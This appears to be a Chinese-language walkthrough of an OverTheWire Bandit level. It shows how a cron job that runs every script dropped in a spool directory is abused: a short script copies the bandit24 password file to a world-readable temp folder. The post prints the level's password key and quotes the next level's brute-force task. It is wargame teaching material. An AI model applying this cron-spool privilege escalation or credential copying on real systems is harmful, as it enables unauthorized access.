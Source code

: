 这题我觉得有点意思.

cron 是一个定时执行工具, 任务可以通过命令 `crontab` 设定,
配置储存在 `/etc/cron.d` 中, 每分钟 cron 会被触发一次,
到该目录检测是否有任务要执行: `cat /etc/cron.d/cronjob_bandit24`

```bash
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

所以说 `/usr/bin/cronjob_bandit24.sh` 会每分钟执行一次, 看看这个脚本的内容是什么:

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 "./$i"
        rm -f "./$i"
    fi
done
```

每次都执行 `/var/spool/bandit24` 下的所有可执行文件, 之后删除.
当然是以 `bandit24` 的身份执行这些操作.

所以我们可以构造一个脚本让他执行.

```bash
#!/bin/sh
cp /etc/bandit_pass/bandit24 /tmp/tmp.xxx/psw
chmod 666 /tmp/tmp.xxx/
```

这个脚本把密码文件复制到临时目录并且更改他的权限(至少让所有人可读).

中间出了很多愚蠢的错误, 比如写错目录,搞错 `sh` 的路径什么的,
另外, 不能用重定向导出 `bandit24` 的密码, 因为没有权限(为什么没有权限我就不清楚了).

脚本写完后, `chmod +x`, 再把它复制到 `/var/spool/bandit24` 目录下, 记得备份,
每隔一分钟该目录就会被清空.

脚本执行后, 到 `/tmp/tmp.xxx` 里就可以看到存有 key 的文件了.

> key: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


# bandit25
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.
